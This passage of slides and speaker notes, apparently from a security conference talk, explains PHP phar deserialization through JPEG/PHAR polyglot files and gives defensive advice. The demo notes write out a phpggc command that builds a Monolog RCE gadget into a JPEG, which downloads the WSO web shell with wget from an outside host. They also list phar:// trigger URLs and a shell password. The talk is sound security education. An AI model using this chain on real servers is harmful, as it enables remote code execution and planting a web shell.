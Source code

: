 - For mostly time reasons (and the fact it gets very complicated and makes my head explode!), we can't go into the minute detail of how this works, however
    - PHP has various wrappers such as php://input or php://memory that you might have used before
    - There is also one called phar:// that tells PHP to treat the file as a phar archive.
    - At the same time, you can hide a phar within a jpeg.
    - What get really interesting however, is when you realise that within the manifest of a phar file, can be a metadata object
      - This metadata object is a serialized PHP object....
- So, remember that the exploit involves polluting a serialized object with specific data, that we then want PHP to unserialize? 
    - Well, when most file-based actions are performed on a phar file, that serialized metadata is unserialized!
- And we can hide the phar fie in a JPEG, so it looks legitimate...

---

class: section-title-c center middle

# DEMO

???

- Show example code
- cd /home/liam/Projects/talks/hackthesystem/tools/phpggc
- ./phpggc -pj avatar.jpg Monolog/RCE1 system "wget https://raw.githubusercontent.com/mIcHyAmRaNe/wso-webshell/master/wso.php -O wso.php" -o loaded-mono.jpg
- mv loaded-mono.jpg ../../laravel/app/Http/Controllers/
- http://localhost:9999/image?filename=phar://loaded-mono.jpg
- http://localhost:9999/wso.php
- PW ghost287

---

class: content-even

# Polyglot JPEG/PHAR files

- This still requires trusting user input, in that the system needs to be tricked into using the `phar://` wrapper
- So, yet again **never trust user input!**
- Bear in mind this might not be on a user request - if you have scheduled tasks this could be an attack vector as well
 - **Never** run scheduled tasks as root!

???

- Again, there is a reliance here on a piece of user information - unless we tell php it's an archive using the phar:// wrapper, which came from the user-provided query string, we wouldn't be able to exploit that.
- But, the potentially is pretty bad - now, consider how it could get worse!
  - Imagine you have an app that uploads an image and saves the filename, then later on that image is processed by a scheduled task.
    - Perhaps you didn't write the original code that adds the image to the database - do you know if it was validated? Perhaps it wasn't, and now the filename in the DB is phar:// something?
  - Now, who here has ever run a cron job as root? (raise hand)
  - You've just given full root access to your attacker!

---